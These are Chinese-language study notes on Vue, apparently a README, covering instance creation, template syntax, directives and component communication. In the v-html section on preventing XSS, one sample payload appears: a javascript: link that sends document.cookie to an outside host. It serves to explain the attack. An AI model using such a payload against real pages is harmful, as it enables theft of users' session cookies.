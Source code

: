 # Vue

###  创建

想让Vue工作，就必须创建一个Vue实例，且要传入一个配置对象。
被Vue接管的容器中的代码依然符合html规范，只不过混入了一些特殊的Vue语法。
root容器里的代码被称为【Vue模板】
Vue实例和容器是一一对应的
真实开发中只有一个Vue实例，并且会配合着组件一起使用
{{xxx}}中的xxx要写js表达式，且xxx就可以自动读取到data中的所有属性
一旦data中的数据发生改变，那么页面中用到该数据的地方也会自动更新

```html
<!-- 准备一个容器 -->
<div id="root">
    <h1>
        Hell,{{name}}
    </h1>
</div>
<script type="text/javascript">
    Vue.config.productionTip = false // 阻止vue在启动时生成生产提示
    // 创建Vue实例
    new Vue({
        el:'#root', //el用于指定当前Vue实例为哪个容器服务，值通常为css选择器字符串。
        data:{ //data中用于存储数据，数据供el所指定的容器去使用，值现在暂时先写成一个对象，后面换成函数。
            name:'xiaoming'
        }
    })
</script>
```



#### 模板语法

##### 插值

功能：用于解析标签体内容
写法：{{xxx}}，xxx是js表达式，且可以直接读取到data中的所有属性
文本 {{}}

纯HTML

v-html,防止XSS,CSRF(
    1.前端过滤
    2.后台转义`(<> &lt;&gt;)`
    3.给cookie加上属性http
)

```js
<a href=javascript:location.href='http://www.baidu.com?cookie='+document.cookie>click</a>
```

##### 指令

是带有v-前缀的特殊属性
功能：用于解析标签（包括：标签属性，标签内容，绑定事件。。。）
v-bind 动态绑定属性

    缩写：:src

Vue中有两种数据绑定的方式：

- 单向绑定（v-bind）:数据只能从data流向页面。
- 双向绑定（v-model）:数据不仅能从data流向页面，还可以从页面流向data
  - 双向绑定一般都应用在表单类元素上（如input,select）
  - v-model:value可以简写为v-model，因为v-model默认收集的就是value值。

v-if 动态创建/删除

v-show 动态显示/隐藏

v-on:click 绑定事件

    缩写：@click

v-for 遍历

v-model 双向绑定表单

## 组件通信

通信仓库地址：https://gitee.com/jch1011/vue3_communication.git

**props**:可以实现父子组件，子父组件，甚至兄弟组件通信

**自定义事件**:可以实现子父组件通信

**全局事件总线$bus**:可以实现任意组件通信

**pubsub**:发布订阅模式实现任意组件通信

**vuex**:集中式状态管理容器，实现任意组件通信

**ref**:父组件获取子组件实例VC，获取子组件的响应式数据以及方法

**slot**:插槽（默认插槽，具名插槽，作用域插槽）实现父子组件通信.....

### 1.1 props

props可以实现父子组件通信，在vue3中我们可以通过defineProps获取父组件传递的数据。且在组件内部不需要引入defineProps方法可以直接使用！

### 1.2 自定义事件

在vue框架中事件分为两种：一种是原生的DOM事件，另外一种自定义事件。

原生DOM事件可以让用户与网页进行交互，比如click,dbclick,change,moseenter,mouseleave...

自定义事件可以实现子组件给父组件传递数据

#### 1.2.1 原生DOM事件

代码如下:

```html
<pre @click="handler">
	我是祖国的老花朵
</pre>
```

当前代码给pre标签绑定原生DOM事件点击事件，默认回给事件回调主任event事件对象。当点击事件想注入多个参数可以按照下图操作。但是切记注入的事件对象务必叫做$event。

```html
<div @click="handler(1,2,3,$event)">
    我要传递多个参数
</div>
```

在vue3框架click,dbclick,change(这类原生DOM事件)，不管是在标签，自定义标签上（组件标签）都是原生DOM事件。

但在vue2中却不是这样的，在vue2中组件标签需要通过native修饰符才能变为原生DOM事件

#### 1.2.2 自定义事件

### 1.3 全局事件总线

全局事件总线可以实现任意组件通信，在vue2中可以根据VM与VC关系推出全局事件总线。

但是在vue3中没有Vue构造函数，也就没有Vue.prototype.以及组合式API写法没有this,

那么在Vue3想实现全局事件的总线功能就有点不现实啦，如果想在Vue3中使用全局事件总线功能可以使用插件mitt实现。

mitt官网地址：https://www.nmpjs.com/package/mitt

### 1.4 v-model

v-model指令可以是收集表单数据（数据双向绑定），除此之外它也可以实现父子组件数据同步。

而v-model实指利用props[modelValue]与自定义事件[update:modelValue]实现的。

下方代码：相当于给组件Child传递一个props(modelValue)与绑定一个自定义事件update:modelValue实现父子组件数据同步

```html
<Child v-model="msg"></Child>
```

在vue3中一个组件可以通过使用多个v-model,让父组件多个数据同步，下方代码相当于给组件Child传递两个props分别是pageNo与pageSize,以及绑定两个自定义事件update:pageNo与update:pageSize实现父子数据同步

````html
<Child v-model:pageNo="msg" v-model:pageSize="msg1"></Child>
````

